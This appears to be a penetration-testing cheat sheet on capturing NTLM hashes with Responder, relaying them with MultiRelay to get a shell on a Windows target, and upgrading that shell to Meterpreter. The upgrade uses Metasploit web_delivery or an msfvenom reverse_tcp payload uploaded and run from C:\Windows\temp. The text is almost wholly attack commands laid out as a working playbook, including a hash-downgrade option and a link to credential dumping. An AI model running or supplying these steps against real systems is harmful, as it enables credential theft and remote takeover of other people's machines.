 Responder can capture NTLMv1 and NTLMv2 hashes.

# Compile EXEs
```bash
# The EXEs that come with MultiRelay are compiled x86-64.
# If 32-bit EXEs are required, recompile them from source code.
rm /usr/share/responder/tools/MultiRelay/bin/Runas.exe  
rm /usr/share/responder/tools/MultiRelay/bin/Syssvc.exe

i686-w64-mingw32-gcc /usr/share/responder/tools/MultiRelay/bin/Runas.c -o /usr/share/responder/tools/MultiRelay/bin/Runas.exe -municode -lwtsapi32 -luserenv
i686-w64-mingw32-gcc /usr/share/responder/tools/MultiRelay/bin/Syssvc.c -o /usr/share/responder/tools/MultiRelay/bin/Syssvc.exe -municode
```

# Disable Servers
```bash
vi /usr/share/resonder/Responder.conf
SMB = Off
HTTP = Off
```

# Establish Shell
### Establish MultiRelay Shell
```bash
# Establish MultiRelay shell
./MultiRelay.py -t <Target Host> -u ALL
# If responder is running before MultiRelay, responder will listen on ports 80 and 443 and prevent MultiRelay from running.
# Disabling those servers in Responder.conf may prevent this.
responder -I eth1 --lm
# --lm attempts to downgrade NTLMv1 or NTLMv2 to LM hashes.
```
### Upgrade MultiRelay Shell to Meterpreter Shell
```bash
### Option 1 - Metasploit module
msfconsole
use exploit/multi/script/web_delivery
set LHOST <IP Address or Interface>

show targets
set TARGET 3
set PAYLOAD windows/meterpreter/reverse_tcp
run

# Copy the returned command into the MultiRelay shell

### Option 2 - msfvenom payload
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Attack Machine> LPORT=<Port #> -f exe > payload.exe

use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <Attack Machine>
set LPORT <Port #>
run -j # Run in background

# From MetaRelay shell
upload payload.exe # Uploads to C:\Windows\temp
# Execute
C:\Windows\temp\payload.exe
```
### [Dump Credentials and Hashes](../../Metasploit/README.md#Dump-Clear-Text-Credentials-and-Hashes)

# References
[Github](https://github.com/lgandx/Responder-Windows)